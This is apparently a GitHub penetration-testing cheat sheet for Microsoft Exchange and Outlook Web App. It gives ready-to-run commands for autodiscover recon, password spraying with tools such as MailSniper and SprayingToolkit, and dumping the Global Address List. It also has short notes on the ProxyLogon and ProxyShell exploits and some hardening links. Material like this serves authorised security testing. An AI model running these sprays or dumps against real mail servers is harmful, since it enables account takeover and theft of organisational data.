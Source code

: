 # Exchange OWA Penetration Test

## 1. Recon
### Autodiscover
```
POST /autodiscover/autodiscover.xml HTTP/1.1
Host: mail.domain.tld
User-Agent: Microsoft Office/16.0 (Windows NT 10.0; Microsoft Outlook 16.0.10730; Pro)
Authorization: Basic base64(domain\user:password)
Content-Length: 341
Content-Type: text/xml

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
      <EMailAddress>myemail@domain.com</EMailAddress>
      <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```
### Version
```
python3 get-exchange-version.py https://mail.domain.tld
```
<br>&nbsp;

## 2. Password Spray
* PasswordSprayOWA : will attempt to connect to an OWA portal and perform a password spraying attack using a userlist and a single password.
* PasswordSprayEWS :  will attempt to connect to an EWS portal and perform a password spraying attack using a userlist and a single password.
### [MailSniper](https://github.com/dafthack/MailSniper)
```powershell
Import-Module MailSniper.ps1
Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile owa-sprayed-creds.txt
Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile sprayed-ews-creds.txt
```
### python NTLM password Sparay
```python
python3 bruteforce/bruteforce.py -t https://mail.domain.com/EWS/Exchange.asmx -U users.txt -p TestPassword
```
### [o365enum](https://github.com/gremwell/o365enum)
```python
./o365enum.py -u users.txt -p Password2 -n 1
```
### [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)
```python
python3 atomizer.py owa mail.r-1x.com 'PASSWORD' ../users.txt
```
### [Metasploit](https://github.com/rapid7/metasploit-framework)
The following module can be used for EWS: `lauxiliary/scanner/http/owa_ews_login`
<br>&nbsp;<br>&nbsp;

## 3. GAL 
The Microsoft Exchange Global Address List (GAL) is a list of all end users and their respective email addresses within an Exchange Server organization that uses Microsoft Outlook for email.
### [impacket](https://github.com/SecureAuthCorp/impacket)
```python
python GAL/exchanger.py DomainName/Username:"Password"@mail.domain.com nspi list-tables
```
### [ruler](https://github.com/sensepost/ruler) 
```
GAL/ruler-linux64 --url https://mail.domain.com/autodiscover/autodiscover.xml --email Username@domain.com -d DomainName -u Username -p Password --debug --verbose  abk dump --output gal.txt 
```
### ewsManage.py
```python
python3 GAL/ewsManage.py mail.domain.com 443 plaintext DomainName Username Password findallpeopl
```
* for export GAL we should enum valid username,password and email first !
<br>&nbsp;<br>&nbsp;

## 4. [ProxyLogon](https://github.com/kh4sh3i/ProxyLogon)
ProxyLogon is the formally generic name for CVE-2021-26855, a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the authentication and impersonating as the admin. We have also chained this bug with another post-auth arbitrary-file-write vulnerability, CVE-2021-27065, to get code execution.
<br>&nbsp;<br>&nbsp;

## 5. [ProxyShell](https://github.com/kh4sh3i/ProxyShell)
CVE-2021-34473 Microsoft Exchange Server Remote Code Execution Vulnerability. This faulty URL normalization lets us access an arbitrary backend URL while running as the Exchange Server machine account. Although this bug is not as powerful as the SSRF in ProxyLogon, and we could manipulate only the path part of the URL
<br>&nbsp;<br>&nbsp;

## 6. Bypasses
- [UserName Recon/Password Spraying](http://www.blackhillsinfosec.com/?p=4694)
- [Password Spraying MFA/2FA](http://www.blackhillsinfosec.com/?p=5089)
- [Password Spraying/GlobalAddressList](http://www.blackhillsinfosec.com/?p=5330)
- [Outlook 2FA Bypass](http://www.blackhillsinfosec.com/?p=5396)
- [Malicious Outlook Rules](https://silentbreaksecurity.com/malicious-outlook-rules/)
- [Outlook Rules in Action](http://www.blackhillsinfosec.com/?p=5465)
<br>&nbsp;<br>&nbsp;<br>&nbsp;


# Hardening
- [Securing Microsoft Exchange Server: 8 Best Practices](https://www.blumira.com/secure-microsoft-exchange/)
- [How to Protect Microsoft Exchange and Outlook Web App Logins](https://rublon.com/blog/how-to-protect-microsoft-exchange-and-outlook-logins/)
- [8 Essential Microsoft Exchange Online Security Tips and Best Practices](https://www.simeoncloud.com/blog/8-essential-microsoft-exchange-online-security-tips-and-best-practices)
- [Microsoft Exchange Server Security: The 10 BEst Ways to Secure Your Server](https://www.messageware.com/10-ways-to-secure-your-exchange-server/)
- [Microsoft Exchange Server Vulnerability Checklist](https://www.proarch.com/blog/microsoft-exchange-server-vulnerability-checklist)
<br>&nbsp;

## Credit
Based on [six2dez](https://github.com/six2dez/pentest-book/blob/master/enumeration/webservices/owa.md)'s github page.<br>
Based on [kh4sh3i](https://github.com/kh4sh3i/exchange-penetration-testing/blob/main/README.md)'s github page.<br>
[Exploring-Microsoft-Exchange-for-penetration-testing-and-redteaming-part-1](https://www.erssec.com/Exploring-Microsoft-Exchange-for-penetration-testing-and-redteaming-part-1/).
<br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
